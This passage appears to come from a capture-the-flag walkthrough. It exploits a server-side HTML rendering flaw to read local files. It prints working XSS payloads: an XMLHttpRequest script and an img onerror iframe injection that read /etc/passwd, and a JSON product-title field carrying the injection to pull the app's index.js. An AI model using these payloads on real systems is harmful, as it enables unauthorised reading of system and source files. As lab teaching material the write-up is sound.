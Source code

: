 Still kind of the same issue. There are a couple that use attachments, but I couldn’t get them to work.

The fix here is either to set the `iframe` size, or use a request and don’t base64 the data so that it will line wrap. I’ll go with the latter.

I’ll remove the `boa` from the previous payload:

```

<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(this.responseText)};
x.open("GET","file:///etc/passwd");x.send();
</script>

```

After escaping the `"` and removing newlines, I get:

```

<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open(\"GET\",\"file:///etc/passwd\");x.send();</script>

```

This returns something much better:

![image-20230612122135804](/img/image-20230612122135804.png)

That’s nice, but there’s no newlines. Another technique that works nicely is to write an `iframe` into the page using the `img` tag I used at the start to test writing. I like this better than just inserting an `iframe` as it gets more space:

```

<img src=\"x\" onerror=\"document.write('<iframe src=file:///etc/passwd width=100% height=100%></iframe>')\" />

```

![image-20230612124240314](/img/image-20230612124240314.png)

#### Source Analysis

I’ll fetch the source using the same technique. I know it’s running from `/var/www/dev`. The main file is likely `index.js`, so I’ll start there:

```

{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"<img src=\"x\" onerror=\"document.write('<iframe src=file:///var/www/dev/index.js width=100% height=100%></iframe>')\" />","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}

```
